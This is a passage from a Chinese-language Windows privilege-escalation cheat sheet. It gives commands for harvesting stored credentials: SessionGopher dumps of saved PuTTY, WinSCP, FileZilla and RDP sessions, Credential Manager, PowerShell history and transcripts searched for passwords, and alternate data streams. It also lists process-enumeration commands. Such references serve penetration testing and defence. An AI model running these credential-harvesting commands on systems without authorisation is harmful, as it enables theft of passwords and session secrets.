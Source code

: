 使用 [SessionGopher](https://github.com/Arvanaghi/SessionGopher) 保存 PuTTY、WinSCP、FileZilla、SuperPuTTY 和 RDP 的会话信息。


```powershell
https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
Import-Module path\to\SessionGopher.ps1;
Invoke-SessionGopher -AllDomain -o
Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
```

### 密钥管理器中存储的密码

:warning: 该软件将以 GUI 形式显示其输出

```ps1
rundll32 keymgr,KRShowKeyMgr
```

### Powershell 历史记录

禁用 Powershell 历史记录：`Set-PSReadlineOption -HistorySaveStyle SaveNothing`。

```powershell
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type C:\Users\swissky\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
type $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
cat (Get-PSReadlineOption).HistorySavePath
cat (Get-PSReadlineOption).HistorySavePath | sls passw
```

### Powershell 成绩单

```xml
C:\Users\<USERNAME>\Documents\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
C:\Transcripts\<DATE>\PowerShell_transcript.<HOSTNAME>.<RANDOM>.<TIMESTAMP>.txt
```

### 备用数据流中的密码

```ps1
PS > Get-Item -path flag.txt -Stream *
PS > Get-Content -path flag.txt -Stream Flag
```

## EoP - 进程枚举和任务

* 有哪些进程正在运行？

  ```powershell
  tasklist /v
  net start
  sc query
  Get-Service
  Get-Process
  Get-WmiObject -Query "Select * from Win32_Process" | where {$_.Name -notlike "svchost*"} | Select Name, Handle, @{Label="Owner";Expression={$_.GetOwner().User}} | ft -AutoSize
  ```
